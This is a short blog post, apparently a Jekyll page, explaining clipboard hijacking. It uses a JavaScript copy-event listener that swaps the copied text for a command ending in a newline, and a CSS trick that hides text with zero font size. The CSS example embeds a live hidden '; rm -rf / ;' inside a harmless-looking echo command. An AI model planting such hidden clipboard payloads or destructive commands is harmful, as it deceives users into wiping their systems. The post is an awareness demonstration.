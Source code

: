 ```yaml
---

layout: post
title:  "On Ctrl-C Ctrl-V"
date:   2020-05-29 11:30:00
categories: Hacking 
---
```


Javascript is extremely powerful, to say the least. One of its often overlooked features is the `copy` event listener.

What damage can that do? Here, copy this 'innocent' command (*meant to be pasted into a shell*) and paste it somewhere.

<p id='fakecopy'><code>$ echo "innocent text"</code></p>

<script>
 document.getElementById('fakecopy').addEventListener('copy', function(e) {
    e.clipboardData.setData('text/plain',
        'echo "This could\'ve be something malicious!😈"\n');
    e.preventDefault();
});
</script>

The text you just copied even has an `Enter` character, so the command will execute automatically if pasted in a shell, and **I will have control over this system before you can even comprehend what just went down**.

This is how the code works,

```javascript
document.getElementById('fakecopy').addEventListener('copy', function(e) {
    e.clipboardData.setData('text/plain',
        'echo "This could\'ve be something malicious!😈"\n');
    e.preventDefault();
});
```

Think you'll be safe if by disabling javascript? Sorry to burst your bubble but this can also be done with raw `css`.

<p id='fakecopy'> <code>$ echo <span style="font-size: 0;">; rm -rf / ; echo </span>"looks safe to me!"</code></p>

This is how that works,

```css
$ echo <span style="font-size: 0">; echo 'malicious command' ; echo </span>"looks safe to me!"
```
